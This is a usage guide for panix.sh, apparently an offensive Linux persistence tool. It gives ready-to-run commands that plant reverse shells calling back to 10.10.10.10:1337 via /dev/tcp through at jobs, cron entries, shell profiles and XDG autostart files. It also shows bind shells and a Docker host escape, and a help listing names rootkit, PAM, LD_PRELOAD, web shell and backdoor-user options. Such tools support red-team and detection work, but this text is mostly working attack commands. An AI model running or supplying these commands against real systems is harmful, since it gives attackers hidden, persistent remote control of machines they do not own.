 # Panix.sh Usage Examples

This document provides examples of how to use panix.sh for various tasks.

## Normal User

### Reverse Shell


To execute a basic reverse shell:

```sh
./panix.sh --reverse-shell --ip <ip> --port <port>
```

Persistence Techniques

### At Job Persistence

Schedule a one-time command to be executed at a specific time.

``Example:`` Execute a reverse shell in one minute.

```sh
./panix.sh --at --custom --command "/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --time "now + 1 minute"
```

### Cron Job Persistence

Create a cron job to establish persistence.

- Default Cron Job

This creates a default cron job for a reverse shell.
```sh
./panix.sh --cron --default --ip 10.10.10.10 --port 1337
```

- Custom Cron Jobs

Using timing flags (--daily, --hourly, etc.):

```sh
sudo ./panix.sh --cron --custom --command "/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --daily --name "evil_cron_job"
```

Adding to /etc/cron.d/:
```sh
sudo ./panix.sh --cron --custom --command "* * * * * root /bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --crond --name "evil_cron_job"
```

Adding to the user's crontab:

```sh
sudo ./panix.sh --cron --custom --command "* * * * * /bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --crontab
```

### Shell Profile Persistence

Add a command to a shell profile script (e.g., .bashrc, .zshrc) for execution on shell startup.

- Default

```sh
./panix.sh --shell-profile --default --ip 10.10.10.10 --port 1337
```

- Custom

```sh
sudo ./panix.sh --shell-profile --custom --command "(nohup bash -i > /dev/tcp/10.10.10.10/1337 0<&1 2>&1 &)" --path "/root/.bash_profile"
```


### XDG Autostart Persistence

Create a .desktop file in an XDG autostart directory to execute a command on desktop environment login.

- Default

```sh
./panix.sh --xdg --default --ip 10.10.10.10 --port 1337
```

- Custom

sudo ./panix.sh --xdg --custom --command "/bin/bash -c 'sh -i >& /dev/tcp/10.10.10.10/1337 0>&1'" --path "/etc/xdg/autostart/evilxdg.desktop"


### Bind Shell

Execute a backgrounded bind shell for incoming connections.

- Using Shellcode (x86):

```sh
sudo ./panix.sh --bind-shell --default --shellcode --architecture x86
```

- Using LOLBins (nc):

```sh
sudo ./panix.sh --bind-shell --default --lolbin --nc --port 1337
```

### Docker Container with Host Escape

Run a Docker container configured to escape to the host and execute a reverse shell.

```sh
sudo ./panix.sh --malicious-container --default --ip 10.10.10.10 --port 1337
```

## ROOT

```sh
┌──(mrfa3i㉿PwnSec)-[~/Downloads]
└─$ sudo ./panix.sh  -h                 

Root User Options:

  --at                   At job persistence
  --authorized-keys      Add public key to authorized keys
  --backdoor-user        Create backdoor user
  --backdoor-system-user Create backdoor system user
  --bind-shell           Execute backgrounded bind shell (supports multiple LOLBins)
  --cap                  Add capabilities persistence
  --create-user          Create a new user
  --cron                 Cron job persistence
  --dbus                 D-Bus service persistence
  --generator            Generator persistence
  --git                  Git hook/pager persistence
  --grub                 GRUB bootloader persistence
  --initd                SysV Init (init.d) persistence
  --initramfs            Initramfs persistence
  --ld-preload           LD_PRELOAD backdoor persistence
  --lkm                  Loadable Kernel Module (LKM) persistence
  --malicious-container  Docker container with host escape
  --malicious-package    Build and Install a package for persistence (DPKG/RPM)
  --motd                 Message Of The Day (MOTD) persistence (not available on RHEL derivatives)
  --network-manager      NetworkManager dispatcher script persistence
  --package-manager      Package Manager persistence (APT/YUM/DNF)
  --pam                  Pluggable Authentication Module (PAM) persistence (backdoored PAM & pam_exec)
  --passwd-user          Add user to /etc/passwd directly
  --password-change      Change user password
  --polkit               Allow pkexec as any user through Polkit
  --rc-local             Run Control (rc.local) persistence
  --reverse-shell        Reverse shell persistence (supports multiple LOLBins)
  --rootkit              Diamorphine (LKM) rootkit persistence
  --shell-profile        Shell profile persistence
  --ssh-key              SSH key persistence
  --sudoers              Sudoers persistence
  --suid                 SUID persistence
  --system-binary        System binary persistence
  --systemd              Systemd service persistence
  --udev                 Udev (driver) persistence
  --web-shell            Web shell persistence (PHP/Python)
  --xdg                  XDG autostart persistence
  --revert               Revert most changes made by PANIX' default options
  --mitre-matrix         Display the MITRE ATT&CK Matrix for PANIX
  --quiet (-q)           Quiet mode (no banner)
```
